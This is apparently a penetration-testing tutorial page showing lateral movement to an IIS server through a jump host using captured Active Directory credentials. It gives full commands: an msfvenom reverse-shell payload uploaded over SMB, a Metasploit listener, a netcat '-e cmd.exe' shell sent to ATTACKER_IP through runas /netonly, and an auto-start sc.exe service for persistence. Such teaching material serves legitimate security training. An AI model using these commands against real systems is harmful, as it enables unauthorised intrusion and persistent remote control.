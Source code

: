 # Example

Suppose the following scenario where we have obtained two sets of AD credentials:&#x20;

a. Low privileges (user)

b. Administrative access (admin)&#x20;

Our goal is to obtain a shell session on an _IIS_ server with administrative privileges. There are 2 servers we will be working with:

a. Intermediary (`jmp.test.com`)

b. IIS (`iis.test.com`)

Let's assume that the Intermediary server have no data that will be interesting to us, and it simply functions as an intermediary to get to the _IIS_ server. The main goal is the _IIS_ server, which is only accessible/routable from the intermediary server due to network restrictions, firewalls, etc.

The first set of AD credential allows us to gain a remote shell session on the intermediary machine (`jmp.domain`), via SSH.&#x20;

However, the _IIS_ server does not expose a SSH service. Thus, we need to make use of the session we have on the intermediary server to move laterally to the _IIS_ server (`iis.domain`) using the obtained admin credentials, to gain a remote session with administrative privileges.&#x20;

### (1) Using `sc.exe`

{% embed url="https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc754599(v=ws.11)" %}

#### 1. SSH into the intermediary server (with the first set of low-privileged credentials)

```sh
$ ssh test.com\\user@jmp.test.com
```

This will provide us a command prompt:

```
C:\Users\user> whoami
user
```

#### 2. Craft the reverse shell payload (`msfvenom`) and upload it to the IIS server (with admin credentials)

We can use `msfvenom`  to craft a payload in the `exe-service` format, which allows us to encapsulate our payload inside a fully functional service executable.

{% code title="Attacker" overflow="wrap" %}
```sh
# take note of the LPORT value, it is required when we are starting the msfconsole listener
$ msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKER_IP LPORT=9999 -o <service_exec_name>.exe
```
{% endcode %}

**Uploading the payload**

Now, we can upload the payload to the _IIS_ server (`smbclient`), and subsequently start a listener with `msfconsole` :

{% code title="Attacker" overflow="wrap" %}
```sh
# lets first identify the name of the admin share
$ smbclient -U admin -L '//iis.test.com' -W xxx
Sharename       Type      Comment
---------       ----      -------
 ADMIN$         Disk      Remote Admin
...

$smbclient -c "put <service_exec_name>.exe" -U admin -W xxx '//iis.test.com/admin$/' <password>
```
{% endcode %}

> Replace `service_exec_name>.exe` with the name of the executable file created with msfvenom

_Start the msfconsole listener:_

{% code title="Attacker" overflow="wrap" %}
```sh
$ msfconsole
msf6> use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST lateralmovement
msf6 exploit(multi/handler) > set LPORT 9999 
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
msf6 exploit(multi/handler) > exploit 
```
{% endcode %}

{% embed url="https://jarrettgxz-sec.gitbook.io/networking-concepts/networking-tools/miscellaneous/smbclient" %}

#### 3. Spawn a remote `/netonly` shell session on the intermediate server (as the admin)&#x20;

Start a listener on the attacker machine on eg. port **8888**

* This is the listener that provides us a remote shell session as the admin (next step)

{% code title="Attacker" %}
```sh
$ nc -lvnp 8888
```
{% endcode %}

From the remote shell session (step 1), we can spawn a new `/netonly` shell to allow us to perform network connections/requests as the admin:

{% code title="jmp.test.com (user)" overflow="wrap" %}
```sh
C:\Users\user> runas.exe /netonly /user:test.com\admin "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 8888"
```
{% endcode %}

The listener on port **8888** will receive a remote command prompt on `jmp.test.com` as the admin:

{% code title="jmp.test.com (admin)" %}
```
C:\Windows/system32> whoami
admin
```
{% endcode %}

#### 4. Start a service (`sc.exe`) on the _IIS_ server that automatically executes the uploaded reverse shell payload

Now, with a shell session as the admin, we can create a service executable that calls our uploaded `msfvenom` payload created earlier:

{% code title="jmp.test.com (admin)" overflow="wrap" %}
```powershell
# start powershell
C:\> powershell

PS> sc.exe \\iis.test.com create rvshell binPath= "%windir%\myservice.exe" start= auto
PS> sc.exe \\iis.test.com start rvshell
```
{% endcode %}

After performing the following actions, we will retrieve a reverse shell connection from the `msfconsole` session earlier anytime the _IIS_ server starts:

{% code title="iis.test.com (admin)" %}
```
C:\> whoami
admin
```
{% endcode %}

**Additional notes**

Note that it will not work if we tried to establish a reverse shell connection from the admin shell directly with `sc.exe` using the `binPath` option:

{% code title="Attacker (admin)" overflow="wrap" %}
```sh
$ sc.exe \\TARGET create <servicename> binPath= "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4443" start= auto

$ sc.exe \\TARGET start <servicename>
```
{% endcode %}

This is because the service manager expects the executable that is being executed to function as a service executable (perform certain actions), which is different from standard `.exe` files, as with what we have provided. The method we have explored with `msfvenom` works as it encapsulates the payload within a valid service executable.
